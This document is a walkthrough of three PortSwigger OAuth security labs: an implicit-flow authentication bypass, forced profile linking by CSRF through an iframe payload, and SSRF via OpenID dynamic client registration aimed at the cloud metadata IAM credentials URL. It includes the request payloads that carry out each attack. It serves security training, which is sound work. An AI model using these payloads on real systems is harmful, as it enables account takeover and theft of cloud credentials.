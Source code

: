 **OAuth Exploitation:-**

-   Stealing OAuth Token via Referer

-   Grabbing OAuth Token via redirect_uri

-   Executing XSS via redirect_uri

-   OAuth Private Key Disclosure

-   Authorization Code Rule Violation

-   Cross-Site Request Forgery (CSRF)

Reference: PayloadsAllTheThings - OAuth

Authentication bypass via OAuth implicit flow
=============================================

This lab uses an OAuth service to allow users to log in with their social media
account. Flawed validation by the client application makes it possible for an
attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is
carlos\@carlos-montoya.net.

You can log in with your own social media account using the following
credentials: wiener:peter.

References:

-   https://portswigger.net/web-security/oauth

![img](media/239ff709b8f18768f3165e987d59fae8.png)

After clicking to log in, there is a GET request:

![img](media/7f524f9ca5ddffa06d7e8d333606e6eb.png)

Then there is a form to authenticate:

![img](media/ec55461342a7c56199b37b288e7e6693.png)

And then authorize the application to access some information:

![img](media/db53347b86cd1983724aadbd952995d9.png)

One of the last requests is a POST request to “/authenticate” with the
information of the user:

![img](media/163fb75f2f2e1f05065b65f36056bee0.png)

I will change it to the information of the user “carlos”:

![img](media/b2ac2c4a2bacc011fd24af5af585d512.png)

With this we get authenticated as carlos:

![img](media/d539200371544e13f5da10e0102dd87f.png)

Forced OAuth profile linking
============================

This lab gives you the option to attach a social media profile to your account
so that you can log in via OAuth instead of using the normal username and
password. Due to the insecure implementation of the OAuth flow by the client
application, an attacker can manipulate this functionality to obtain access to
other users' accounts.

To solve the lab, use a CSRF attack to attach your own social media profile to
the admin user's account on the blog website, then access the admin panel and
delete Carlos.

The admin user will open anything you send from the exploit server and they
always have an active session on the blog website.

You can log in to your own accounts using the following credentials:

-   Blog website account: wiener:peter

-   Social media profile: peter.wiener:hotdog

References:

-   https://portswigger.net/web-security/oauth

![img](media/5763c348158918a6795e158004b1afd3.png)

Once authenticated, there is an options to attach a social profile:

![img](media/47869cad1e9e6d51dbc0098eec4eeb49.png)

It redirects to:

![img](media/5ee2f3947e23496c6034b6bf284a43bc.png)

And then:

![img](media/a58169fcc35cfc65cf49e26fb0ef33b1.png)

The last request is a GET request to “/oauth-linking” with a code:

![img](media/a5dbbeac1b61d9c2dcc19c2ff17f8384.png)

Create an iframe for the victim to access this link:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<iframe src="https://0a0200d703e9d1e08553857b002e00df.web-security-academy.net/oauth-linking?code=jETtPOj5DHmBoJt_E3Po0I2PQEndgDoRhuFexNBuDpt"></iframe>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7564d7d968ece91ea0623bde8f3c1b2b.png)

Then click “Log in with social media” and you will log in as the administrator:

![img](media/f8400aa7d71e5f966b5367f9a2853d9b.png)

SSRF via OpenID dynamic client registration
===========================================

This lab allows client applications to dynamically register themselves with the
OAuth service via a dedicated registration endpoint. Some client-specific data
is used in an unsafe way by the OAuth service, which exposes a potential vector
for SSRF.

To solve the lab, craft an SSRF attack to access
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and
steal the secret access key for the OAuth provider's cloud environment.

You can log in to your own account using the following credentials: wiener:peter

Note: To prevent the Academy platform being used to attack third parties, our
firewall blocks interactions between the labs and arbitrary external systems. To
solve the lab, you must use Burp Collaborator's default public server.

References:

-   https://portswigger.net/web-security/oauth/openid

![img](media/32ac6624cca37c3e06d6378c677c68b3.png)

We can read the configuration file in the path /.well-known/openid-configuration
of the Oauth domain:

![img](media/d2068560dd3dfbe59adf7333ddc6e956.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"authorization_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/auth",
"claims_parameter_supported":false,"claims_supported":["sub","name","email","email_verified","sid","auth_time","iss"],"code_challenge_methods_supported":["S256"],"end_session_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/session/end","grant_types_supported":["authorization_code","refresh_token"],"id_token_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"issuer":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net","jwks_uri":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/jwks","registration_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg","response_modes_supported":["form_post","fragment","query"],"response_types_supported":["code"],"scopes_supported":["openid","offline_access","profile","email"],"subject_types_supported":["public"],"token_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"token_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"token_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token","request_object_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"request_parameter_supported":false,"request_uri_parameter_supported":true,"require_request_uri_registration":true,"userinfo_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/me","userinfo_signing_alg_values_supported":["HS256","ES256","EdDSA","PS256","RS256"],"introspection_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/introspection","introspection_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"introspection_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"revocation_endpoint":"https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/token/revocation","revocation_endpoint_auth_methods_supported":["none","client_secret_basic","client_secret_jwt","client_secret_post","private_key_jwt"],"revocation_endpoint_auth_signing_alg_values_supported":["HS256","RS256","PS256","ES256","EdDSA"],"claim_types_supported":["normal"]}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The registration endpoint is
https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg. We can
register using a POST request like this:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg HTTP/2
Host: oauth-0a76003403dd792f81c9abe702320017.oauth-server.net
...

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256"
}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/992aa9100652949edaa5f150a2f29f83.png)

We can retrieve the information with a GET request using the client uri and the
access token:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET https://oauth-0a76003403dd792f81c9abe702320017.oauth-server.net/reg/2KNEf4dJKOmBdXye_KEhK?access_token=6G8_0Ow8SO_MDIBo4h8J23k9WsLmZCjY9AiWEM0j26v
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/324c6cb7386e592b29de63916fd1c15c.png)

We can set the URIs to the one we want to obtain:

![img](media/00b323c67afd5c480c7fa784bb61ad60.png)

During the login process there was a request to get the application logo:

![img](media/4753bb7010afc9f9f422c0ad21bd781d.png)

We can change the client_id for the one of the new application:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /client/m7xK68ZFDecUNKJ6U91xk/logo
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/7f298a4bf9bd925e67dfedfbf46c7e7a.png)
